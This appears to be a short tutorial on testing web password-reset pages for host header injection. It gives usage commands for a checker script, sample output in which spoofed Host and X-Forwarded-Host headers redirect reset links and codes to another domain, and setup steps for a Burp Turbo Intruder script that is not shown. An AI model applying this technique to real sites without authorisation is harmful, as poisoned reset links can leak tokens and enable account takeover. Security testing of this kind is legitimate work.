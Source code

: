 ## ✅ How to Use host-header-checker.sh
```

chmod +x host-header-checker.sh
./host-header-checker.sh https://any.com/reset_password

```
### OUTPUT
```
[+] Method 1: Host => bing.com
Status: 302
Location: https://bing.com/reset_password?code=abc123

[+] Method 2: Host => bing.com, X-Forwarded-Host => realweb.com
Status: 200

[+] Method 3: Host => realweb.com, X-Forwarded-Host => bing.com
Status: 302
Location: https://bing.com/reset_password?code=xyz999
```
<hr>


## ✅ B. Full Automation with BurpSuite Extension: Turbo Intruder

### Turbo Intruder is 🔥 for automation via Burp, especially when dealing with multiple payloads or hosts.
```
🔧 Turbo Intruder Script for Host Header Injection:
Install Turbo Intruder:

In Burp, go to: Extensions → BApp Store → Install Turbo Intruder

Right-click a request → Send to Turbo Intruder

Paste this script in the Turbo Intruder tab: HostHeader.py

```
